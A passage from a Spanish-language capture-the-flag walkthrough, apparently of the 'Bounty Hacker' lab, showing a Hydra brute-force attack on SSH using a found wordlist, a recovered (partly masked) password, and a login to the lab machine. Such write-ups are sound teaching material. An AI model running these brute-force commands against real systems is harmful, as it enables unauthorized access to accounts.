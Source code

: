 En el archivo locks.txt observamos lo que podrían ser contraseñas por el hecho de que utiliza caracteres complejos, por lo tanto usaremos el usuario L** y el diccionario encontrado para realizar un ataque de fuerza bruta al servicio ssh.

### Hydra

En este caso utilizaremos el programa Hydra para realizar al servicio que indiquemos y dirección IP que realice un ataque de fuerza bruta a dicho usuario con el diccionario que le asignemos.

```bash
hydra -l l** -P locks.txt 10.10.160.21 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-10 07:58:52
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.160.21:22/
[22][ssh] host: 10.10.160.21   login: l**   password: Red***********cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-01-10 07:59:05
```

| Argumentos | Descripción |
| --- | --- |
| -l | Sirve para indicar el usuario. |
| -P | Sirve para indicar el diccionario. |
| 10.10.160.21 | Se indica la IP de la máquina contraria. |
| ssh | Se indica el servicio al que realizará el ataque de fuerza bruta. |

Al descubrir que el usuario l** puede acceder con la contraseña Red***********cat3 por ssh, nos conectaremos a dicho servicio con estas credenciales obtenidas.

```bash
ssh l**@10.10.160.21
lin@10.10.160.21's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Tue Jan 10 07:06:06 2023 from 10.8.35.7
l**@bountyhacker:~/Desktop$
```

Como podemos observar, hemos conseguido acceder al usuario, por lo que utilizaremos ahora el comando ls para dictar los archivos que existen en el directorio.
